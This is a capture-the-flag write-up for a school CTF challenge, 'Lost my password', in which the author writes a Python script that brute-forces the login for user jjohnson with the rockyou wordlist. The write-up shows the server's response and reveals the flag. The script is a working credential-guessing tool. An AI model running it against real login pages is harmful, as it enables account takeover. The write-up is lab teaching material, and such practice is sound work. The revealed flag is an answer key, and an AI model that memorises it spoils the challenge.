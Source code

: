 # Lost my password (200)
#### crypto - [Louisa County High School](../main.md)

## Challenge description:
> Hello, my name is John. I have lost my password. See if you can help me get into my account. Don't forget to checkout the attached login.php. My username is jjohnson.
>
> http://ctf-id-3.lcps.k12.va.us/login.php
> 
> Download file: [lostmypassword.php](../assets/lostmypassword.php)

## Solution 
We are given another login page and told to login as the user `jjohnson`. Last time, loggin as the admin provided a hint. This time, if we try admin/admin, we see:

```
All hail the admin!!

jjohnson is the one who needs help.


Louisa County Public Schools CTF Brute Force Attack.
```
Now that we know it's brute force, we can write a script.
```py
import requests
from tqdm import tqdm
import sys

with open(sys.argv[1], "r") as f:
    words = f.readlines()

words = [word.strip() for word in words]

for w in tqdm(words):
    data = {"uid": "jjohnson", "password": w}
    response = requests.post("http://ctf-id-3.lcps.k12.va.us/login.php", data=data)
    if "ctf{" in str(response.text).lower():
        print(response.text)
    else:
        pass
```
This iterates through every word in a given wordlist and attempts to pass it in as the password of jjohnson. I started with rockyou-20.

```
$ python bruteforce.py /usr/share/seclists/Passwords/Leaked-Databases/rockyou-20.txt
<html lang="en"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Home Page - Simple Login Page with SQL Injection</title>

    <link href="css/htmlstyles.css" rel="stylesheet">
	</head>

  <body>
  <div class="container-narrow">
		
		<div class="jumbotron">
			<p class="lead" style="color:white">
				Welcome John The Ripper!! You are now logged in!</a>
			</p>
						
			
			
        </div>
		
	  <div class="footer">
		<p><h4><a href="logout.php">Logout</a><h4> </p>
      </div>
	  
	  </br>
	  <p class="lead" style="color:black">
				 <h2>Congratulations!!! You did it!!!</h2> </br></br> The Flag is: *********************  .</a>
			</p>
			</br>
	  
	  
	  
	  <div class="footer">
		<p>Louisa County Public Schools CTF Brute Force Attack.</p>
      </div>

	</div> <!-- /container -->
  
</body>
</html>
```

<details> 
    <summary>Flag</summary>
CTF{BFhasPaidOff2022}</details>